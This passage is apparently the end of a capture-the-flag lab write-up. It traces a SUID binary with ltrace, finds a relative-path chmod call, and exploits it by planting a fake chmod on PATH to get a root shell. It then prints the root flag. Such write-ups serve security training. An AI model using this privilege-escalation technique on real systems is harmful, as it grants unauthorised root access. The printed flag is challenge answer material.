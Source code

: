 We use `ltrace` to see what binaries are called by the SUID one. We identify
that the binary use a relative path call to `chmod`.

    :::text
    dexter@laboratory:~$ ltrace docker-security
    setuid(0)                                                                                                                                        = -1
    setgid(0)                                                                                                                                        = -1
    system("chmod 700 /usr/bin/docker"chmod: changing permissions of '/usr/bin/docker': Operation not permitted
    <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                                           = 256
    system("chmod 660 /var/run/docker.sock"chmod: changing permissions of '/var/run/docker.sock': Operation not permitted
    <no return ...>
    --- SIGCHLD (Child exited) ---
    <... system resumed> )                                                                                                                           = 256
    +++ exited (status 0) +++

So we simply create a new "`chmod`" program and add it to our path to get a root
shell and grab the flag

    :::text
    dexter@laboratory:/tmp/.plop$ echo /bin/bash > chmod
    dexter@laboratory:/tmp/.plop$ chmod +x chmod
    dexter@laboratory:/tmp/.plop$ export PATH=./:$PATH
    dexter@laboratory:/tmp/.plop$ echo $PATH
    ./:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/snap/bin
    dexter@laboratory:/tmp/.plop$ docker-security
    root@laboratory:/tmp/.plop# cat /root/root.txt
    1b08ba51a612057b8aca9940e57fce77

# Wrapping up

A really interesting box that allow us to play with a real vulnerability from a
bug bounty report. Maybe more a medium than an easy box.
